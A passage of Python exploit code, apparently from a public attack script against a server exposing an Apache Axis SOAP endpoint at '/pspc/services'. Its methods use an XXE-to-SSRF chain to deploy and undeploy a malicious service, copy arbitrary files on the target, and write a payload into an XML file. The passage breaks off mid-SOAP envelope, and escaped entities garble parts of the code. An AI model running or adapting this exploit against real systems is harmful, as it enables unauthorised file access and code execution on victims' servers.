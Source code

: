 ```
        )
    def service_check(self):
        """Verifies that the service is correctly installed.
        """
        r = self.get('/pspc/services')
        return self.service_name in r.text
    def service_deploy(self):
        self.xxe_ssrf(self.soap_service_deploy())
        if not self.service_check():
            raise RuntimeError('Unable to deploy service')
        o('+', 'Service deployed')
    def service_undeploy(self):
        if not self.local_port:
            return
        self.xxe_ssrf(self.soap_service_undeploy())
        if self.service_check():
            o('-', 'Unable to undeploy service')
            return
        o('+', 'Service undeployed')
    def service_send(self, data):
        """Send data to the Axis endpoint.
        """
        return self.post(
            '/pspc/services/%s' % self.service_name,
            data=data,
            headers=`{`
                'SOAPAction': 'useless',
                'Content-Type': 'application/xml'
            `}`
        )
    def service_copy(self, path0, path1):
        """Copies one file to another.
        """
        data = """
        &lt;?xml version="1.0" encoding="utf-8"?&gt;
        &lt;soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"&gt;
        &lt;soapenv:Body&gt;
        &lt;api:copy
        soapen&gt;
            &lt;in0 xsi:type="xsd:string"&gt;%s&lt;/in0&gt;
            &lt;in1 xsi:type="xsd:string"&gt;%s&lt;/in1&gt;
        &lt;/api:copy&gt;
        &lt;/soapenv:Body&gt;
        &lt;/soapenv:Envelope&gt;
        """.strip() % (path0, path1)
        response = self.service_send(data)
        return '&lt;ns1:copyResponse' in response.text
    def service_main(self, tmp_path, tmp_dir):
        """Writes the payload at the end of the .xml file.
        """
        data = """
        &lt;?xml version="1.0" encoding="utf-8"?&gt;
        &lt;soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"&gt;
        &lt;soapenv:Body&gt;
        &lt;api:main
        soapen&gt;
            &lt;api:in0&gt;
```